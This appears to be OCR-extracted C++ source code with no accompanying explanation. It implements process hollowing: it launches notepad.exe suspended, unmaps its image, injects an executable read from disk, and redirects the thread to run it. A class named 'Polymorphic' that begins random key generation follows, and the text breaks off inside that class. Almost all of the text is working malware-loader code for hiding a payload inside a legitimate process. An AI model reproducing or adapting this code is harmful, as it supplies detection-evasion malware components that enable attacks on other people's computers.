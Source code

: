 void ProcessHollowing(const wchar_t* targetPath) {
    STARTUPINFOW si = { sizeof(STARTUPINFOW) };
    PROCESS_INFORMATION pi;
    
    CreateProcessW(L"C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
    
    HANDLE hFile = CreateFileW(targetPath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    DWORD fileSize = GetFileSize(hFile, NULL);
    
    std::vector<BYTE> buffer(fileSize);
    ReadFile(hFile, buffer.data(), fileSize, NULL, NULL);
    CloseHandle(hFile);
    
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)buffer.data();
    PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)(buffer.data() + dosHeader->e_lfanew);
    
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pi.hThread, &ctx);
    
    LPVOID baseAddress = (LPVOID)ntHeader->OptionalHeader.ImageBase;
    NtUnmapViewOfSection(pi.hProcess, baseAddress);
    
    LPVOID newBase = VirtualAllocEx(pi.hProcess, baseAddress, ntHeader->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    WriteProcessMemory(pi.hProcess, newBase, buffer.data(), ntHeader->OptionalHeader.SizeOfHeaders, NULL);
    
    PIMAGE_SECTION_HEADER sections = IMAGE_FIRST_SECTION(ntHeader);
    for (WORD i = 0; i < ntHeader->FileHeader.NumberOfSections; i++) {
        WriteProcessMemory(pi.hProcess, (LPVOID)((LPBYTE)newBase + sections[i].VirtualAddress),
            buffer.data() + sections[i].PointerToRawData, sections[i].SizeOfRawData, NULL);
    }
    
#ifdef _WIN64
    ctx.Rcx = (DWORD64)((LPBYTE)newBase + ntHeader->OptionalHeader.AddressOfEntryPoint);
#else
    ctx.Eax = (DWORD)((LPBYTE)newBase + ntHeader->OptionalHeader.AddressOfEntryPoint);
#endif
    
    SetThreadContext(pi.hThread, &ctx);
    ResumeThread(pi.hThread);
}

class Polymorphic {
private:
    static std::vector<BYTE> key;
    static void GenerateKey() {
        std::random_device rd;
        std::mt19937 gen(rd());
        std::uniform_int_distribution<> dis(0, 255);
        